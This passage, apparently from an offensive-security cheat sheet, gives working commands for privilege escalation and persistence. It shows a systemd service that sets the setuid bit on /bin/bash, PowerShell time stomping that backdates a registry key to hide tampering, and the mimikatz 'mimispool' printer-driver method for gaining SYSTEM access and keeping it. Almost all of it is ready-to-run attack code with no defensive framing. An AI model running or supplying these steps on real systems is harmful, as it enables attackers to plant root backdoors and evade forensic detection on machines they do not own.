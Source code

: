 **Installation**

```c
$ echo '[Unit]
Description=Example Service

[Service]
Type=simple
ExecStart=chmod +s /bin/bash
Restart=always

[Install]
WantedBy=multi-user.target' > /etc/systemd/system/<SERVICE>.service
```

**Execution**

```c
$ sudo systemctl restart <SERVICE>
```

### Time Stomping

```c
$dateTime = New-Object System.DateTime(1999,12,26)
$regKey = [Microsoft.Win32.Registry]::LocalMachine.OpenSubKey("SYSTEM\CurrentControlSet\Services\helpsvc",$true)[RegRoutines.NativeMethods]::SetRegistryKeyDateTime($regKey, $dateTime)
```

### Universal Privilege Escalation and Persistence Printer

```c
$printerName     = 'Pentest Lab Printer'
$system32        = $env:systemroot + '\system32'
$drivers         = $system32 + '\spool\drivers'
$RegStartPrinter = 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Print\Printers\' + $printerName
```

```c
Copy-Item -Force -Path ($system32 + '\mscms.dll')             -Destination ($system32 + '\mimispool.dll')
Copy-Item -Force -Path '.\mimikatz_trunk\x64\mimispool.dll'   -Destination ($drivers  + '\x64\3\mimispool.dll')
Copy-Item -Force -Path '.\mimikatz_trunk\win32\mimispool.dll' -Destination ($drivers  + '\W32X86\3\mimispool.dll')
```

```c
Add-PrinterDriver -Name       'Generic / Text Only'
Add-Printer       -DriverName 'Generic / Text Only' -Name $printerName -PortName 'FILE:' -Shared
```

```c
New-Item         -Path ($RegStartPrinter + '\CopyFiles')        | Out-Null
```
